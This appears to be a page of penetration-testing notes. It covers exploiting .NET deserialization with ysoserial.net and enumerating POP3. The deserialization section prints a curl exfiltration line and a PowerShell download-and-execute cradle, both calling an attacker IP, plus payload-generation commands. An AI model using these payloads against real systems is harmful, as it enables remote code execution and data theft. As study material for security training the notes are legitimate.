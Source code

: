 BinaryFormatter
DataContractSerializer
NetDataContractSeroalizer
XML Serialization
Serialized .NET data can be found in the VIEWSTATE Parameter of an HTTP request
ysoserial .NET:
<https://github.com/pwntester/ysoserial.net/>
examples:
soserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c 'powershell.exe Invoke-WebRequest -Uri <http://10.10.11.3:9000/abcdabcdabc>
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c 'cmd /c calc.exe' -o raw
out-of-band data exfiltration via command execution:
nano payload.txt
$c=whoami;curl http://10.10.11.3:9000/$c
ysoserial payload:
powershell -exec Bypass -C \"IEX (New-Object Net.WebClient).DownloadString('http://10.10.11.3:9000/payload.txt')\"
notes:
As said before, Soap Body tags should be removed: <SOAP-ENV:Body>
In order to have a valid soap message, a dummy SOAPAction header is required. This is related to SOAP and not related to this specific lab
The content type should be text/xml like in every SOAP request
If you are receiving an error stating 'Requested service was not found', you might also need to clear some whitespaces / newlines

#### BurpSuite extensions

Freddy, Deserialization Bug Finder

Java Deserialization Scanner

## POP3 (port 110) & POP3S (port 995)

```bash
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port PORT IP
```

**POP commands:**

- USER uid           Log in as "uid"
- PASS password      Substitute "password" for your actual password
- STAT               List number of messages, total mailbox size
- LIST               List messages and sizes
- RETR n             Show message n
- DELE n             Mark message n for deletion
- RSET               Undo any changes
- QUIT               Logout (expunges messages if no RSET)
- TOP msg n          Show first n lines of message number msg

## IMAP (port 143) & IMAPS (port 993)

## NetBIOS (port 139 and UDP ports 137 and 138)
